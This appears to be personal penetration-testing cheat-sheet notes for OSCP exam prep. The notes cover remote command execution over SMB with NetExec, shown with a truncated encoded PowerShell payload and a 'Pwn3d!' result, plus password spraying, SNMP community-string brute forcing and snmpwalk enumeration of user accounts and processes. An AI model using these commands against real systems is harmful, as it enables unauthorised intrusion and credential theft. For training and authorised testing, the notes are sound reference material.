 ### Command Execution with NXC:
- `nxc smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='`
```
netexec smb 10.10.10.10 -u Username -p Password -X 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AY...AKAApAA=='
SMB         10.10.10.10   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:EXAMPLE.com) (signing:True) (SMBv1:False)
SMB         10.10.10.10   445    DC               [+] EXAMPLE.com\Username:Password (Pwn3d!)
SMB         10.10.10.10   445    DC               [-] WMIEXEC: Could not retrieve output file, it may have been detected by AV. If it is still failing, try the 'wmi' protocol or another exec method
```

### Check A Password when you have users
`nxe smb $IP -u users.txt -p 'password' -d domain.com --continue-on-success`

## 161,162 SNMP 

### Notes
SNMP is that it operates using community strings which means it sends passwords when it sends data. Can be sniffed with wireshark. 
Versions:
- SNMPv1 is all cleartext, so it is easy to grab the string
- SNMPv2 has some inherent weaknesses allowing it to be grabbed 2
- SNMPv3 is encrypted, but it can be brute forced.

There are 2 kinds of community strings: Public (Read Access) and Private (Write Access).

You can also brute-force the string with nmap or Hydra:
`nmap --script=snmp-brute $targetIP
`hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt snmp://$targetIP/

But you need community string first:

### onesixtyone
- `onesixtyone -c $(file containing community strings (public, private, manager)) -i $(file containing target ips)`
- Note that there are seclists with common community strings
	- SecLists/Miscellaneous/wordlist-common-snmp-community-strings.txt
	- /usr/share/seclists/Discovery/SNMP/snmp.txt

### snmpwalk
- `snmpwalk -c public -v1 -t 10 $targetIP`: where public is the community string (could be private or mamanger)
- `snmpwalk -c public -v1 192.168.50.151 $OIDString` - for specific info
- `snmpwalk -v $version -c public $IP NET-SNMP-EXTEND-MIB::nsExtendOutputFull`
- `snmpwalk -v 2c -c public 192.168.243.156 NET-SNMP-EXTEND-MIB::nsExtendObjects`
	- **This one seems to return the most, and everything else seemed to miss some information from OSCP Exam C**

```
|OID| Target |
|--|--|
| 1.3.6.1.2.1.25.1.6.0 | System Processes |
| 1.3.6.1.2.1.25.4.2.1.2 | Running Programs |
| 1.3.6.1.2.1.25.4.2.1.4 | Processes Path |
| 1.3.6.1.2.1.25.2.3.1.4 | Storage Units |
| 1.3.6.1.2.1.25.6.3.1.2  | Software Name |
| 1.3.6.1.4.1.77.1.2.25 | User Accounts |
| 1.3.6.1.2.1.6.13.1.3 | TCP Local Ports |
```
- `snmpwalk -Os -c public -v 1 $IP system`
	- to retrieve all
	- try 'v 2c' as well 